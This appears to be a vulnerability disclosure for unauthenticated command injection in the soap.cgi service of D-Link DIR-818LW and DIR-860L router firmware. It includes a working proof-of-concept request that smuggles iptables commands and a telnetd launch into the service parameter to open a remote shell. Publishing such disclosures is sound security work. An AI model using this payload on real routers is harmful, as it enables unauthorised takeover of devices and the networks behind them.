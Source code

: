 # D-Link Unauthenticated OS Command Injection

**Vender**: D-Link

**Firmware version**:
DIR-818LW_REVA_PATCH_2.05.B03,
DIR-860L_REVB_2.03.B03

**Exploit Author**: pr0v3rbs@kaist.ac.kr

**Vendor Homepage**: http://us.dlink.com/

**Hardware Link**:
https://support.dlink.com/ProductInfo.aspx?m=DIR-818LW,
https://support.dlink.com/ProductInfo.aspx?m=DIR-860L

## The detail of vulnerability ##

I found unauthenticated remote code execution vulnerability in `soapcgi_main` function of `cgibin` binary.

On the `/soap.cgi` service in `49152` port, with the `service` parameter, the unauthenticated remote attacker can execute the shell command.

The similar vulnerability already exists with [CVE-2018-6530](https://github.com/TheBeeMan/Pwning-multiple-dlink-router-via-SOAP-proto#0x04-details---lan---revab---command-injection-in-soap-controltype-url-interface), and some firmware was already added character sanitizing with `strchr` function.

However, on the firmware DIR-818LW_REVA_PATCH_2.05.B03, DIR-860L_REVB_2.03.B03; they not fully filtered the vulnerable character.

![](JEB.png)

With `&&` string, the device can be exploited, too.

## PoC

```
# nc 192.168.0.1 49152
POST /soap.cgi?service=&&iptables -P INPUT ACCEPT&&iptables -P FORWARD ACCEPT&&iptables -P OUTPUT ACCEPT&&iptables -t nat -P PREROUTING ACCEPT&&iptables -t nat -P OUTPUT ACCEPT&&iptables -t nat -P POSTROUTING ACCEPT&&telnetd -p 9999&& HTTP/1.1
Host: 192.168.0.1:49152
Accept-Encoding: identity
Content-Length: 16
SOAPAction: "whatever-serviceType#whatever-action"
Content-Type: text/xml

# telnet 192.168.0.1 9999
```

